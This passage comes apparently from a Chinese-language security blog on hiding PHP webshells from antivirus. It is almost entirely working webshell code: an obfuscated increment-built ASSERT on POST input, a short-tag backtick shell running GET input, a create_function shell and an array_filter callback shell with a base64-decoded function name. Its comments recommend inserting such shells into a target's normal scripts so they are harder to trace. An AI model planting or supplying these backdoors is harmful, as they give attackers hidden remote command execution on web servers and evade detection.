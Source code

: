 ```php
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;
$_=$$____;
$___($_[req]); // ASSERT($_POST[_]);
```



![img](https://klionsec.github.io/img/array%20spce%20webshell.png)

## 3.特殊的web服务器自身配置

```php
利用短格式来实现免杀,前提需要目标的php配置已经事先开启短格式支持[php.ini有对应的开关],不过一般默认都是没开的,确实比较鸡肋,不实用
short_open_tag = On 
<?=`$_GET[m]`;
```



![img](https://klionsec.github.io/img/short%20spec.png)



## 4.语言特性灵活隐匿webshell

```
具有回调特性的函数其实还有非常多,这里只是简单地列出了一部分,可挖掘的潜力还比较大,大家可对着手册自行深入研究
利用回调的好处除了免杀之外,还有就是,可以很方便我们`直接把自己的shell插到目标的正常脚本代码中`,让其变得更加难以追踪
关于webshell隐藏的更多内容,这里就不细说了,有兴趣大家可以直接去参考博客`webshell隐藏`相关文章,记得很久之前就总结了一篇
```



```php
<?php 
$a = create_function('', @$_REQUEST['req']);$a();
?>
```

![img](https://klionsec.github.io/img/create_function%20common.png)

```php
<?php 
$ah = $_POST['ah'];
$arr = array($_POST['cmd']);
array_filter($arr,base64_decode($ah));
?>
```
